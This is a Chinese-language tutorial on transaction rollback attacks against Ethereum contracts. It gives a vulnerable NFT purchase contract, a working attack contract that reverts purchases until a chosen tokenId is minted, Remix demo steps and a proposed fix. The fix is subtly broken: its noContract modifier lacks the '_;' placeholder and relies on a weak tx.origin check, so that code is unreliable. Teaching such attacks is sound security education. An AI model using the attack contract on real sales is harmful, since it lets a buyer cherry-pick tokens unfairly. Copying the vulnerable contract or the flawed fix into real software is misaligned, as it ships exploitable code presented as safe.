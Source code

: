 # 交易回滚攻击

## 原理分析

以太坊 EVM 支持交易回滚，合约可以使不满足条件的调用失败，从而回滚部分或者整个交易。

- 交易回滚

使用 `assert()`，`require()` 和 `revert()` 可以使不满足条件的调用失败，配合 `try`，`catch` 可以回滚部分或者整个交易。

- 回滚攻击

如果业务合约允许合约调用或者调用了第三方合约，那么合约调用和第三方合约就可以利用交易回滚，撤销不符合自己期望的执行结果，从而达成攻击的目的。

## 流程图示

- 交易回滚
```mermaid
graph TB
    sender[调用者] -- 1 --> startContract[调用合约] -- 2 --> contract[业务合约] -- 3 --> startContract
```

- 回滚攻击
```mermaid
graph TB
    start[方法开始] --> contract[调用业务合约] --> check{调用结果是否符合预期} -- 符合预期 --> endIt[方法结束]
    check -- 不符合预期 --> rollback[交易回滚]
```

## 示例代码

这是一个简单的 NFT 合约示例，它的功能是购买 NFT。如果你看不出合约的问题，说明你正需要学习这节课。(这个合约有巨大漏洞，请不要直接使用在任何实际业务中)

```solidity
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.12;

import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

interface INFT {
    function buyNFT() external payable;
}

contract NFT is ERC721 {
    uint256 tokenId;

    constructor() ERC721("NFT","NFT") {}

    function buyNFT() external payable {
        require(msg.value >= 1 ether, "NFT: You must pay 1 ether to buy an NFT");
        _safeMint(msg.sender, tokenId++);
    }
}

contract TransactionRollbackAttack {
    INFT nft;
    uint256 tokenId;

    constructor(address _nft) {
        nft = INFT(_nft);
    }

    function doBuyNFT(uint256 _tokenId) external payable {
        tokenId = _tokenId;
        nft.buyNFT{value: msg.value}();
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 _tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        require(tokenId == _tokenId, "NFT: not the correct token");
        return this.onERC721Received.selector;
    }
}
```

## 演示流程

1. 打开 [https://remix.ethereum.org/](https://remix.ethereum.org/)

2. 选择 solidity 版本为 0.8.12，部署 NFT 合约。

3. 将 NFT 合约地址作为参数部署 TransactionRollbackAttack 合约。

4. value 选择 1 Ether，点击 TransactionRollbackAttack 合约的 doBuyNFT 方法，参数输入 0，点击 transact，成功购买 tokenId 为 0 的 NFT。

5. value 选择 1 Ether，点击 TransactionRollbackAttack 合约的 doBuyNFT 方法，参数输入 0，购买 tokenId 为 0 的 NFT 失败。

## 修复问题

- 禁止合约调用
    ```solidity
    modifier noContract() {
        require(tx.origin == msg.sender, "NFT: not contract");
    }

    function buyNFT() noContract external payable {
        require(msg.value >= 1 ether, "NFT: You must pay 1 ether to buy an NFT");
        _safeMint(msg.sender, tokenId++);
    }
    ```
    使用 noContract 来禁止合约调用，可以防止交易回滚攻击。